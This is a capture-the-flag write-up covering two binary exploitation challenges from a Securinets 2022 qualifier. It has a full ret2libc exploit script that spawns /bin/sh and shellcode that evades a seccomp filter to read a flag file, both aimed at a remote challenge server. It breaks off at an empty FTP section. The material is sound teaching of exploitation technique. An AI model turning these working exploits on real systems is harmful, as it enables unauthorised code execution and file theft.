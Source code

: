 # National Cyber Security Congress

[Securiday](https://www.facebook.com/Securiday-104756755537130/) qualifiation round, hosted by [Securinets](https://www.facebook.com/Securinets), a 24 hour CTF. Top #10 teams will be able to compete in Securiday CTF.<br/>
I've participated in the CTF as a member of Enthousiast team. We ranked 22 out of 295 teams internationally & 1st team in Tunisia.<br />
I'll be sharing a writeup for the Binary Exploitation challenges.

<br/>
<hr>

* ### Welcm

For this one, we get a binary & a libc, what a time saver.

As a start, we'll check the security of the binary.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/sec.png"><br/>
</p>
<br />

Now, let's check the binary in Ghidra:
<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/welcm.png"><br/>
</p>
<br />

A basic ret2libc, we check ropper for a `pop rdi` gadget:

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/pop_rdi.png"><br/>
</p>
<br />

Now, let's head to GDB, we check the functions we have ( `info functions` )

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/gdb.png"><br/>
</p>
<br />

No tricks I see, We have everything we'll need.

As a start, we'll need to leak a libc address from the GOT entry. Since we have `puts` available in the binary, we can use it to leak our address. After that, we'll be able to calculate the libc base address. Therefore, we'll be able to find `system` address in memory alongside our `/bin/sh` string.

Summary:

1. Return to `puts`, giving it it's own GOT entry address as a parameter.
2. Find libc base address.
3. Return to `system` giving it `/bin/sh` as parameter.

Considering Ghidra's output, we have 128 bytes for our input + 8 bytes for the RBP, which gives us a total of 136 bytes for the RIP offset. We can start writing our payload.

<details>
  <summary>Show payload</summary>
  
  ```python
  #!/usr/bin/env python3

  from pwn import *

  exe = ELF("./welc_patched")
  libc = ELF("./libc.so.6", checksec=False)

  context.binary = exe
  LOCAL = False


  def conn():
      if LOCAL:
          r = process([exe.path])
      else:
          r = remote("20.216.39.14", 1237)

      return r


  def main():
      r = conn()

      PUTS_PLT = p64(0x0000000000401060)
      PUTS_GOT = p64(0x404018)
      POP_RDI  = p64(0x0000000000401283)
      MAIN     = p64(0x00000000004011db)
      MAIN_RET = p64(0x000000000040121e)

      offset = 136

      # First stage
      # Leak puts address & return to main for stage 2
      payload = b"A"*offset
      payload += POP_RDI
      payload += PUTS_GOT
      payload += PUTS_PLT
      payload += MAIN

      print(payload)

      r.sendline(payload)

      r.recvuntil(b'about you ?\n')
      leak_puts = u64(r.readline()[:-1].ljust(8, b'\x00'))
      base_libc = leak_puts - libc.sym['puts'] # Libc base

      print('Leaked libc           :', hex(leak_puts))
      print('Libc base             :', hex(base_libc))

      SYSTEM = p64(libc.sym['system'] + base_libc)
      BIN    = p64(next(libc.search(b'/bin/sh')) + base_libc)

      # Stage 2, System("/bin/sh")
      payload = b"A"*offset
      payload += MAIN_RET # Alignement
      payload += POP_RDI
      payload += BIN
      payload += SYSTEM

      r.sendline(payload)

      r.interactive()


  if __name__ == "__main__":
      main()
  ```
</details>

And we get our flag: `Securinets{5d91d2e01b854fd457c1d8b592a19b38af6b4a33c6362b7d}`


* ### shellcraft

For this one, we were given a binary file. Considering the name, we'll probably be sending a shell. As a start, we check the binary's security & have a look throught Ghidra.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/sec2.png"><img src="/2022/Securinets%20CTF%20Quals/imgs/ghidra2.png"><br/>
</p>
<br />

Intersting... It's not just an executable stack, but we got our call ready since the begining. But there is this `sandbox` function, digging more into it gives us the following C code:

```C
  local_18 = seccomp_init(0x7fff0000);
  local_38[0] = 2;
  local_38[1] = 0x38;
  local_38[2] = 0x39;
  local_38[3] = 0x3a;
  local_38[4] = 0x3b;
  local_38[5] = 0x65;
  local_38[6] = 0x142;
  for (local_c = 0; local_c < 7; local_c = local_c + 1) {
    seccomp_rule_add(local_18,0,local_38[(int)local_c],0);
  }
  seccomp_load(local_18);
```

So it's google time! Looking for this `seccomp_rule_add` landed me on this [description](https://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html#DESCRIPTION). As we can see, this is somekind of a syscall filtering. Let's jump into GDB for more debuging... Open binary, setup a breakpoint at main+77, before we start executing our shell.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/gdb2.png"><br/>
</p>
<br />

We take a shellcode ([Shell storm](http://shell-storm.org/)) & plug it into our binary's input then watch what happens.<br/>
We hit the breakpoint (`0x55555555530d <main+77>:	call   rdx`) & we step into the execution.

So in my case, the shell changed `rax` value to `0x142` which is `stub_execveat` code. If you're unfamiliar with the `syscall` instruction, basically it's a way for the binary to make **system calls** to the kernel to execute a specific function. Each function have it's own code ([SysCall functions list](http://shell-storm.org/shellcode/files/linux-4.7-syscalls-x64.html)), we use this code to identify which function we would like to call. We simply change the `rax` register to the function code we're seeking & set up our parameters for the function call then we use `syscall` instruction to execute it. Back to the topic, after changing the `rax` value & when we are about to make the system call, we get a crash: `Program terminated with signal SIGSYS, Bad system call.`

So as expected, we can see that the `0x142` is included in our `sandbox` code so, as we expected, this is a system call filter. 

So we'll need to find an other way to reach our flag without using the blacklisted syscalls, we can use `seccomp-tools` to get a better view for the blacklisted calls:

```
─$ seccomp-tools dump ./shellcraft  
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0013
 0006: 0x15 0x06 0x00 0x00000038  if (A == clone) goto 0013
 0007: 0x15 0x05 0x00 0x00000039  if (A == fork) goto 0013
 0008: 0x15 0x04 0x00 0x0000003a  if (A == vfork) goto 0013
 0009: 0x15 0x03 0x00 0x0000003b  if (A == execve) goto 0013
 0010: 0x15 0x02 0x00 0x00000065  if (A == ptrace) goto 0013
 0011: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

So, this is the first time I've come across this kind of challenge. After some digging up, I landed on a writeup which included a similar situation. The solution is writing your own assembly! Let's recheck our sys call list ([SysCall functions list](http://shell-storm.org/shellcode/files/linux-4.7-syscalls-x64.html)). We still have `read` & `write` calls authorized, if we dig more, we'll land on `sys_openat`. This function is similar to `open`, except that we can provide a reference directory. Looking up this function ([ref](https://linux.die.net/man/2/openat)), we can either provide an absolute path to our flag file OR we can play around with the `AT_FDCWD` value. Considering the first challenge, the flag path is `/home/ctf/flag.txt`, so if we can do the following call: `openat(NULL, "/home/ctf/flag.txt", O_RDONLY)`, we'll open our flag file & get a file descriptor for it. How can we use this?

We'll have to write something like this:

```C
f = openat(NULL, "/home/ctf/flag.txt", O_RDONLY); // Open our flag file.
read(f, our_adr, 0x50); // This size should be enough to read the flag.
write(1, our_adr); // Write flag to STDOUT.
```

<br/>
If you can read assembly code, you can skip these paragraphs since I'll be mainly explaining that code.

As a start, we'll set our RAX to 0x101, which is `sys_openat` code. Then we'll need to set both RDI & RDX to 0 (equivalent to NULL) & finally we'll need to make RSI point to `/home/ctf/flag.txt` in the stack. If you're unfamiliar with calling convention for 64 bit architecture, RDI is used for passing the first argument, RSI for the second, RDX for the third. Now, how can we get RSI to point to our flag path? Heading back to GDB, we have our shell code address saved in RAX register & it's executing a `call rdx` to execute our shell, therefore, we can use this information before making any sys calls. We can move RAX value to RSI, add our payload's length to RSI & make sure to have our `/home/ctf/flag.txt` at the end of our payload. After that, we'll be able to make our syscall & we'll get the file descriptor in RAX.

After that, we'll need to execute our `read` function. For that, we can use the same address pointed by RSI since we no longer need it & it's a writeable area. We'll also need to move RAX value (file descriptor) to RSI (first argument). And finally, we'll set RAX to 0 for the `read` sys call & RDX to 0x50 for the buffer size. Then execute our syscall.

And the final part of the payload, we'll keep RSI untouched since it points to our flag, we'll change RAX to 1 (`write` sys call) & then set RDI to 1 (STDOUT file descriptor). We can do our sys call now.

After finishing our payload, we'll end up with a 62 bytes assembly code. We head back to the first stage & add 62 to RSI value to make it point at the end of our payload ;)

And the magic happens: `Securinets{56000a2e8205998dd69d74c30d6b1daca2863e66184c088b}`

Payload:

```python
from pwn import *


context.binary = './shellcraft'

# NOPs are not really needed here, we can get rid of them but we'll have to update RSI value
shellcode = b"\x90" * 5 + asm('''

    mov rsi, rdx
    add rsi, 62
    mov rax, 0x101
    xor rdi, rdi
    xor rdx, rdx
    syscall
    
    mov rdi, rax
    mov rax, 0
    mov rdx, 0x50
    syscall
    
    mov rax, 1
    mov rdi, 1
    syscall

        ''')

payload = shellcode+b"/home/ctf/flag.txt\x00"

#p = process('./shellcraft')
p = remote('20.216.39.14', 1236)

print('Shellcode length    :', len(shellcode))
print('Payload             :', payload)

p.sendline(payload)

p.interactive()
```

* ### FTP

